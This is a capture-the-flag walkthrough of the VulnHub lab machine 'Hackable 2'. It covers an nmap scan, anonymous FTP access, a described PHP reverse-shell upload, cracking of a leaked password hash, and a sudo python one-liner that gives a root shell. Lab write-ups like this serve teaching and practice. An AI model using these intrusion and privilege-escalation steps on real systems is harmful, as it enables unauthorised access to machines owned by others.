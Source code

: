 # [Hackable 2](https://www.vulnhub.com/entry/hackable-ii,711/)

First as always, `nmap`

```
# Nmap 7.92 scan initiated Wed Sep  8 16:13:34 2021 as: nmap -vvv -p 21,22,80 -sCV -oA init 192.168.1.16
Nmap scan report for 192.168.1.16
Host is up, received syn-ack (0.00026s latency).
Scanned at 2021-09-08 16:13:41 +07 for 12s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2f:c6:2f:c4:6d:a6:f5:5b:c2:1b:f9:17:1f:9a:09:89 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDz60boCKErUczzfmmR5Oc6QbAGc07BITB58SwFXDJ5DMr35tssApB/DelFd2t1RoL/Y/t3QvuX/EVIxEk88tN88ivWGC5oSY2EmYkRjg/8/0xqBDk+jVPT3iwpWzcUXn0sc0iEKmTDqAD+epIQ2dlE2wMdyq1Ig/V6DUKOIzkK/4vruMsPGhi1NHgrHHl61B4QaRaZyL0/LR+HQEASc6n0YhTS2DpXIC5yap/zIDMYoa6IbMZcmkBYMN/jqoNkyn4IHLf0TO4d8Ls3Zcyp2l3VJ1c46WzVdJhY5NLJdk3xbKKMH0udVyAWGKvd2xrqkjGb0pFu6yxhCKJuTeWVo5XD
|   256 5e:91:1b:6b:f1:d8:81:de:8b:2c:f3:70:61:ea:6f:29 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDjMXU6dtRvMWvpV8yBynjL6dWz7gYImHfo0mJOlFg+EB4vLIon3kRhpYWBlG4e5DFkAbRtmaxUrADxGMd/YvJY=
|   256 f1:98:21:91:c8:ee:4d:a2:83:14:64:96:37:5b:44:3d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHYT4M/QfNJmwr3zV6ONY0c8H71gccVuZ1JmLJpjy7C6
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  8 16:13:53 2021 -- 1 IP address (1 host up) scanned in 18.91 seconds
```

Looking at FTP, we're able to log in anonymously and download the file "CALL.html". Checking its contents ...

```html
<html>

<head>
	<title>onion</title>
</head>

<body>
	<h1>GET READY TO RECEIVE A CALL</h1>

</body>

</html>
```

It's telling to be ready to receive a call, whatever that call is. Moving on, we look at the web page on port 80. The source code includes a comment hinting us at `gobuster` and `dirb` so I run `gobuster` on it.

```
/files                (Status: 200) [Size: 935]
```

Navigating to `/files`, we see the previously found "CALL.html" from FTP. Looking back at FTP, we're able to upload files so we upload a PHP reverse shell via FTP and go to said shell on the website to get a reverse shell as `www-data`.

Looking at `/home`, we see `important.txt`.

```
run the script to see the data

/.runme.sh
```

Following the message, we run `.runme.sh`

```sh
www-data@ubuntu:/$ /.runme.sh
/.runme.sh
the secret key
is
trolled
restarting computer in 3 seconds...
restarting computer in 2 seconds...
restarting computer in 1 seconds...
⡴⠑⡄⠀⠀⠀⠀⠀⠀⠀ ⣀⣀⣤⣤⣤⣀⡀
⠸⡇⠀⠿⡀⠀⠀⠀⣀⡴⢿⣿⣿⣿⣿⣿⣿⣿⣷⣦⡀
⠀⠀⠀⠀⠑⢄⣠⠾⠁⣀⣄⡈⠙⣿⣿⣿⣿⣿⣿⣿⣿⣆
⠀⠀⠀⠀⢀⡀⠁⠀⠀⠈⠙⠛⠂⠈⣿⣿⣿⣿⣿⠿⡿⢿⣆
⠀⠀⠀⢀⡾⣁⣀⠀⠴⠂⠙⣗⡀⠀⢻⣿⣿⠭⢤⣴⣦⣤⣹⠀⠀⠀⢀⢴⣶⣆
⠀⠀⢀⣾⣿⣿⣿⣷⣮⣽⣾⣿⣥⣴⣿⣿⡿⢂⠔⢚⡿⢿⣿⣦⣴⣾⠸⣼⡿
⠀⢀⡞⠁⠙⠻⠿⠟⠉⠀⠛⢹⣿⣿⣿⣿⣿⣌⢤⣼⣿⣾⣿⡟⠉
⠀⣾⣷⣶⠇⠀⠀⣤⣄⣀⡀⠈⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇
⠀⠉⠈⠉⠀⠀⢦⡈⢻⣿⣿⣿⣶⣶⣶⣶⣤⣽⡹⣿⣿⣿⣿⡇
⠀⠀⠀⠀⠀⠀⠀⠉⠲⣽⡻⢿⣿⣿⣿⣿⣿⣿⣷⣜⣿⣿⣿⡇
⠀⠀ ⠀⠀⠀⠀⠀⢸⣿⣿⣷⣶⣮⣭⣽⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⣀⣀⣈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
    shrek:cf4c2232354952690368f1b3dfdfb24d
```

We get what looks like a password hash for the user shrek. Cracking the hash in [crackstation](https://crackstation.net/) gives us the password `onion` which we use for `su shrek` and become the user "shrek".

Checking our privileges with `sudo -l` ...

```sh
shrek@ubuntu:/$ sudo -l
Matching Defaults entries for shrek on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shrek may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3.5
```

We're able to run python as root without a password. We can easily get a root shell with this.

```sh
sudo /usr/bin/python3.5 -c "import os;os.system('/bin/bash')"
```

With that, we should be root.
